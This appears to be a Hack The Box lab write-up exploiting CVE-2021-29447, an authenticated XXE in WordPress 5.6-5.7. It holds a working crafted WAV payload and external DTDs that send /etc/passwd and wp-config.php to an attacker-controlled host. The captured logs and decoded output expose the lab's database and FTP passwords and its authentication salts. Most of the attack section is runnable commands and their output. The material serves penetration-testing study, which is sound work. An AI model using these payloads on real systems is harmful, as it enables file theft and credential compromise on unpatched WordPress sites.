

# CVE-2021-29447 - WordPress 5.6-5.7 - Authenticated XXE Within the Media Library Affecting PHP 8

## Enumeration

```bash
$ wpscan --url http://metapress.htb/ --enumerate --api-token ...SNIP...
...
[+] URL: http://metapress.htb/ [10.10.11.186]
[+] Started: Sun Jun  2 20:27:13 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: nginx/1.18.0
 |  - X-Powered-By: PHP/8.0.24
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

...

 | [!] Title: WordPress 5.6-5.7 - Authenticated XXE Within the Media Library Affecting PHP 8
 |     Fixed in: 5.6.3
 |     References:
 |      - https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29447
 |      - https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
 |      - https://core.trac.wordpress.org/changeset/29378
 |      - https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-rv47-pc52-qrhh
 |      - https://blog.sonarsource.com/wordpress-xxe-security-vulnerability/
 |      - https://hackerone.com/reports/1095645
 |      - https://www.youtube.com/watch?v=3NBxcmqCgt4
```

## Exploitation


```bash
$ echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.3/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

```bash
$ cat payload.wav  
RIFF�WAVEiXML{<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM 'http://10.10.14.3/evil.dtd'>%remote;%init;%trick;]>
```

```bash
$ cat evil.dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.3/?p=%file;'>" >
```

```bash
$ sudo python3 -m http.server 80                                               
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Upload `payload.wav`



```bash
$ sudo python3 -m http.server 80                                               
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.186 - - [02/Jun/2024 23:54:20] "GET /evil.dtd HTTP/1.1" 200 -
10.10.11.186 - - [02/Jun/2024 23:54:21] "GET /?p=cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KZ25hdHM6eDo0MTo0MTpHbmF0cyBCdWctUmVwb3J0aW5nIFN5c3RlbSAoYWRtaW4pOi92YXIvbGliL2duYXRzOi91c3Ivc2Jpbi9ub2xvZ2luCm5vYm9keTp4OjY1NTM0OjY1NTM0Om5vYm9keTovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjEwMDo2NTUzNDo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtbmV0d29yazp4OjEwMToxMDI6c3lzdGVtZCBOZXR3b3JrIE1hbmFnZW1lbnQsLCw6L3J1bi9zeXN0ZW1kOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtcmVzb2x2ZTp4OjEwMjoxMDM6c3lzdGVtZCBSZXNvbHZlciwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4KbWVzc2FnZWJ1czp4OjEwMzoxMDk6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzc2hkOng6MTA0OjY1NTM0OjovcnVuL3NzaGQ6L3Vzci9zYmluL25vbG9naW4Kam5lbHNvbjp4OjEwMDA6MTAwMDpqbmVsc29uLCwsOi9ob21lL2puZWxzb246L2Jpbi9iYXNoCnN5c3RlbWQtdGltZXN5bmM6eDo5OTk6OTk5OnN5c3RlbWQgVGltZSBTeW5jaHJvbml6YXRpb246LzovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLWNvcmVkdW1wOng6OTk4Ojk5ODpzeXN0ZW1kIENvcmUgRHVtcGVyOi86L3Vzci9zYmluL25vbG9naW4KbXlzcWw6eDoxMDU6MTExOk15U1FMIFNlcnZlciwsLDovbm9uZXhpc3RlbnQ6L2Jpbi9mYWxzZQpwcm9mdHBkOng6MTA2OjY1NTM0OjovcnVuL3Byb2Z0cGQ6L3Vzci9zYmluL25vbG9naW4KZnRwOng6MTA3OjY1NTM0Ojovc3J2L2Z0cDovdXNyL3NiaW4vbm9sb2dpbgo= HTTP/1.1" 200 -
```

```bash
$ echo "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KZ25hdHM6eDo0MTo0MTpHbmF0cyBCdWctUmVwb3J0aW5nIFN5c3RlbSAoYWRtaW4pOi92YXIvbGliL2duYXRzOi91c3Ivc2Jpbi9ub2xvZ2luCm5vYm9keTp4OjY1NTM0OjY1NTM0Om5vYm9keTovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjEwMDo2NTUzNDo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtbmV0d29yazp4OjEwMToxMDI6c3lzdGVtZCBOZXR3b3JrIE1hbmFnZW1lbnQsLCw6L3J1bi9zeXN0ZW1kOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtcmVzb2x2ZTp4OjEwMjoxMDM6c3lzdGVtZCBSZXNvbHZlciwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4KbWVzc2FnZWJ1czp4OjEwMzoxMDk6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzc2hkOng6MTA0OjY1NTM0OjovcnVuL3NzaGQ6L3Vzci9zYmluL25vbG9naW4Kam5lbHNvbjp4OjEwMDA6MTAwMDpqbmVsc29uLCwsOi9ob21lL2puZWxzb246L2Jpbi9iYXNoCnN5c3RlbWQtdGltZXN5bmM6eDo5OTk6OTk5OnN5c3RlbWQgVGltZSBTeW5jaHJvbml6YXRpb246LzovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLWNvcmVkdW1wOng6OTk4Ojk5ODpzeXN0ZW1kIENvcmUgRHVtcGVyOi86L3Vzci9zYmluL25vbG9naW4KbXlzcWw6eDoxMDU6MTExOk15U1FMIFNlcnZlciwsLDovbm9uZXhpc3RlbnQ6L2Jpbi9mYWxzZQpwcm9mdHBkOng6MTA2OjY1NTM0OjovcnVuL3Byb2Z0cGQ6L3Vzci9zYmluL25vbG9naW4KZnRwOng6MTA3OjY1NTM0Ojovc3J2L2Z0cDovdXNyL3NiaW4vbm9sb2dpbgo=" | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```

```bash
$ cat evil.dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.3/?p=%file;'>" >
```

Upload `payload.wav` again

```bash
10.10.11.186 - - [03/Jun/2024 00:03:03] "GET /evil.dtd HTTP/1.1" 200 -
10.10.11.186 - - [03/Jun/2024 00:03:03] "GET /?p=PD9waHANCi8qKiBUaGUgbmFtZSBvZiB0aGUgZGF0YWJhc2UgZm9yIFdvcmRQcmVzcyAqLw0KZGVmaW5lKCAnREJfTkFNRScsICdibG9nJyApOw0KDQovKiogTXlTUUwgZGF0YWJhc2UgdXNlcm5hbWUgKi8NCmRlZmluZSggJ0RCX1VTRVInLCAnYmxvZycgKTsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHBhc3N3b3JkICovDQpkZWZpbmUoICdEQl9QQVNTV09SRCcsICc2MzVBcUBUZHFyQ3dYRlVaJyApOw0KDQovKiogTXlTUUwgaG9zdG5hbWUgKi8NCmRlZmluZSggJ0RCX0hPU1QnLCAnbG9jYWxob3N0JyApOw0KDQovKiogRGF0YWJhc2UgQ2hhcnNldCB0byB1c2UgaW4gY3JlYXRpbmcgZGF0YWJhc2UgdGFibGVzLiAqLw0KZGVmaW5lKCAnREJfQ0hBUlNFVCcsICd1dGY4bWI0JyApOw0KDQovKiogVGhlIERhdGFiYXNlIENvbGxhdGUgdHlwZS4gRG9uJ3QgY2hhbmdlIHRoaXMgaWYgaW4gZG91YnQuICovDQpkZWZpbmUoICdEQl9DT0xMQVRFJywgJycgKTsNCg0KZGVmaW5lKCAnRlNfTUVUSE9EJywgJ2Z0cGV4dCcgKTsNCmRlZmluZSggJ0ZUUF9VU0VSJywgJ21ldGFwcmVzcy5odGInICk7DQpkZWZpbmUoICdGVFBfUEFTUycsICc5TllTX2lpQEZ5TF9wNU0yTnZKJyApOw0KZGVmaW5lKCAnRlRQX0hPU1QnLCAnZnRwLm1ldGFwcmVzcy5odGInICk7DQpkZWZpbmUoICdGVFBfQkFTRScsICdibG9nLycgKTsNCmRlZmluZSggJ0ZUUF9TU0wnLCBmYWxzZSApOw0KDQovKiojQCsNCiAqIEF1dGhlbnRpY2F0aW9uIFVuaXF1ZSBLZXlzIGFuZCBTYWx0cy4NCiAqIEBzaW5jZSAyLjYuMA0KICovDQpkZWZpbmUoICdBVVRIX0tFWScsICAgICAgICAgJz8hWiR1R08qQTZ4T0U1eCxwd2VQNGkqejttYHwuWjpYQClRUlFGWGtDUnlsN31gclhWRz0zIG4+KzNtPy5CLzonICk7DQpkZWZpbmUoICdTRUNVUkVfQVVUSF9LRVknLCAgJ3gkaSQpYjBdYjFjdXA7NDdgWVZ1YS9KSHElKjhVQTZnXTBid29FVzo5MUVaOWhdcldsVnElSVE2NnBmez1dYSUnICk7DQpkZWZpbmUoICdMT0dHRURfSU5fS0VZJywgICAgJ0orbXhDYVA0ejxnLjZQXnRgeml2PmRkfUVFaSU0OCVKblJxXjJNakZpaXRuIyZuK0hYdl18fEUrRn5De3FLWHknICk7DQpkZWZpbmUoICdOT05DRV9LRVknLCAgICAgICAgJ1NtZURyJCRPMGppO145XSpgfkdOZSFwWEBEdldiNG05RWQ9RGQoLnItcXteeihGPyk3bXhOVWc5ODZ0UU83TzUnICk7DQpkZWZpbmUoICdBVVRIX1NBTFQnLCAgICAgICAgJ1s7VEJnYy8sTSMpZDVmW0gqdGc1MGlmVD9adi41V3g9YGxAdiQtdkgqPH46MF1zfWQ8Jk07Lix4MHp+Uj4zIUQnICk7DQpkZWZpbmUoICdTRUNVUkVfQVVUSF9TQUxUJywgJz5gVkFzNiFHOTU1ZEpzPyRPNHptYC5RO2FtaldedUpya18xLWRJKFNqUk9kV1tTJn5vbWlIXmpWQz8yLUk/SS4nICk7DQpkZWZpbmUoICdMT0dHRURfSU5fU0FMVCcsICAgJzRbZlNeMyE9JT9ISW9wTXBrZ1lib3k4LWpsXmldTXd9WSBkfk49Jl5Kc0lgTSlGSlRKRVZJKSBOI05PaWRJZj0nICk7DQpkZWZpbmUoICdOT05DRV9TQUxUJywgICAgICAgJy5zVSZDUUBJUmxoIE87NWFzbFkrRnE4UVdoZVNOeGQ2VmUjfXchQnEsaH1WOWpLU2tUR3N2JVk0NTFGOEw9YkwnICk7DQoNCi8qKg0KICogV29yZFByZXNzIERhdGFiYXNlIFRhYmxlIHByZWZpeC4NCiAqLw0KJHRhYmxlX3ByZWZpeCA9ICd3cF8nOw0KDQovKioNCiAqIEZvciBkZXZlbG9wZXJzOiBXb3JkUHJlc3MgZGVidWdnaW5nIG1vZGUuDQogKiBAbGluayBodHRwczovL3dvcmRwcmVzcy5vcmcvc3VwcG9ydC9hcnRpY2xlL2RlYnVnZ2luZy1pbi13b3JkcHJlc3MvDQogKi8NCmRlZmluZSggJ1dQX0RFQlVHJywgZmFsc2UgKTsNCg0KLyoqIEFic29sdXRlIHBhdGggdG8gdGhlIFdvcmRQcmVzcyBkaXJlY3RvcnkuICovDQppZiAoICEgZGVmaW5lZCggJ0FCU1BBVEgnICkgKSB7DQoJZGVmaW5lKCAnQUJTUEFUSCcsIF9fRElSX18gLiAnLycgKTsNCn0NCg0KLyoqIFNldHMgdXAgV29yZFByZXNzIHZhcnMgYW5kIGluY2x1ZGVkIGZpbGVzLiAqLw0KcmVxdWlyZV9vbmNlIEFCU1BBVEggLiAnd3Atc2V0dGluZ3MucGhwJzsNCg== HTTP/1.1" 200 -
```

```bash
$ echo "PD9waHANCi8qKiBUaGUgbmFtZSBvZiB0aGUgZGF0YWJhc2UgZm9yIFdvcmRQcmVzcyAqLw0KZGVmaW5lKCAnREJfTkFNRScsICdibG9nJyApOw0KDQovKiogTXlTUUwgZGF0YWJhc2UgdXNlcm5hbWUgKi8NCmRlZmluZSggJ0RCX1VTRVInLCAnYmxvZycgKTsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHBhc3N3b3JkICovDQpkZWZpbmUoICdEQl9QQVNTV09SRCcsICc2MzVBcUBUZHFyQ3dYRlVaJyApOw0KDQovKiogTXlTUUwgaG9zdG5hbWUgKi8NCmRlZmluZSggJ0RCX0hPU1QnLCAnbG9jYWxob3N0JyApOw0KDQovKiogRGF0YWJhc2UgQ2hhcnNldCB0byB1c2UgaW4gY3JlYXRpbmcgZGF0YWJhc2UgdGFibGVzLiAqLw0KZGVmaW5lKCAnREJfQ0hBUlNFVCcsICd1dGY4bWI0JyApOw0KDQovKiogVGhlIERhdGFiYXNlIENvbGxhdGUgdHlwZS4gRG9uJ3QgY2hhbmdlIHRoaXMgaWYgaW4gZG91YnQuICovDQpkZWZpbmUoICdEQl9DT0xMQVRFJywgJycgKTsNCg0KZGVmaW5lKCAnRlNfTUVUSE9EJywgJ2Z0cGV4dCcgKTsNCmRlZmluZSggJ0ZUUF9VU0VSJywgJ21ldGFwcmVzcy5odGInICk7DQpkZWZpbmUoICdGVFBfUEFTUycsICc5TllTX2lpQEZ5TF9wNU0yTnZKJyApOw0KZGVmaW5lKCAnRlRQX0hPU1QnLCAnZnRwLm1ldGFwcmVzcy5odGInICk7DQpkZWZpbmUoICdGVFBfQkFTRScsICdibG9nLycgKTsNCmRlZmluZSggJ0ZUUF9TU0wnLCBmYWxzZSApOw0KDQovKiojQCsNCiAqIEF1dGhlbnRpY2F0aW9uIFVuaXF1ZSBLZXlzIGFuZCBTYWx0cy4NCiAqIEBzaW5jZSAyLjYuMA0KICovDQpkZWZpbmUoICdBVVRIX0tFWScsICAgICAgICAgJz8hWiR1R08qQTZ4T0U1eCxwd2VQNGkqejttYHwuWjpYQClRUlFGWGtDUnlsN31gclhWRz0zIG4+KzNtPy5CLzonICk7DQpkZWZpbmUoICdTRUNVUkVfQVVUSF9LRVknLCAgJ3gkaSQpYjBdYjFjdXA7NDdgWVZ1YS9KSHElKjhVQTZnXTBid29FVzo5MUVaOWhdcldsVnElSVE2NnBmez1dYSUnICk7DQpkZWZpbmUoICdMT0dHRURfSU5fS0VZJywgICAgJ0orbXhDYVA0ejxnLjZQXnRgeml2PmRkfUVFaSU0OCVKblJxXjJNakZpaXRuIyZuK0hYdl18fEUrRn5De3FLWHknICk7DQpkZWZpbmUoICdOT05DRV9LRVknLCAgICAgICAgJ1NtZURyJCRPMGppO145XSpgfkdOZSFwWEBEdldiNG05RWQ9RGQoLnItcXteeihGPyk3bXhOVWc5ODZ0UU83TzUnICk7DQpkZWZpbmUoICdBVVRIX1NBTFQnLCAgICAgICAgJ1s7VEJnYy8sTSMpZDVmW0gqdGc1MGlmVD9adi41V3g9YGxAdiQtdkgqPH46MF1zfWQ8Jk07Lix4MHp+Uj4zIUQnICk7DQpkZWZpbmUoICdTRUNVUkVfQVVUSF9TQUxUJywgJz5gVkFzNiFHOTU1ZEpzPyRPNHptYC5RO2FtaldedUpya18xLWRJKFNqUk9kV1tTJn5vbWlIXmpWQz8yLUk/SS4nICk7DQpkZWZpbmUoICdMT0dHRURfSU5fU0FMVCcsICAgJzRbZlNeMyE9JT9ISW9wTXBrZ1lib3k4LWpsXmldTXd9WSBkfk49Jl5Kc0lgTSlGSlRKRVZJKSBOI05PaWRJZj0nICk7DQpkZWZpbmUoICdOT05DRV9TQUxUJywgICAgICAgJy5zVSZDUUBJUmxoIE87NWFzbFkrRnE4UVdoZVNOeGQ2VmUjfXchQnEsaH1WOWpLU2tUR3N2JVk0NTFGOEw9YkwnICk7DQoNCi8qKg0KICogV29yZFByZXNzIERhdGFiYXNlIFRhYmxlIHByZWZpeC4NCiAqLw0KJHRhYmxlX3ByZWZpeCA9ICd3cF8nOw0KDQovKioNCiAqIEZvciBkZXZlbG9wZXJzOiBXb3JkUHJlc3MgZGVidWdnaW5nIG1vZGUuDQogKiBAbGluayBodHRwczovL3dvcmRwcmVzcy5vcmcvc3VwcG9ydC9hcnRpY2xlL2RlYnVnZ2luZy1pbi13b3JkcHJlc3MvDQogKi8NCmRlZmluZSggJ1dQX0RFQlVHJywgZmFsc2UgKTsNCg0KLyoqIEFic29sdXRlIHBhdGggdG8gdGhlIFdvcmRQcmVzcyBkaXJlY3RvcnkuICovDQppZiAoICEgZGVmaW5lZCggJ0FCU1BBVEgnICkgKSB7DQoJZGVmaW5lKCAnQUJTUEFUSCcsIF9fRElSX18gLiAnLycgKTsNCn0NCg0KLyoqIFNldHMgdXAgV29yZFByZXNzIHZhcnMgYW5kIGluY2x1ZGVkIGZpbGVzLiAqLw0KcmVxdWlyZV9vbmNlIEFCU1BBVEggLiAnd3Atc2V0dGluZ3MucGhwJzsNCg==" | base64 -d
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

## Links

- [wpscan vuln](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)
- [Mitre - CVE-2021-29447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29447)
- [sonarsource blog](https://blog.sonarsource.com/wordpress-xxe-security-vulnerability/)
- [HackerOne Report](https://hackerone.com/reports/1095645)
- [HTB MetaTwo - good lab to play](https://app.hackthebox.com/machines/504)
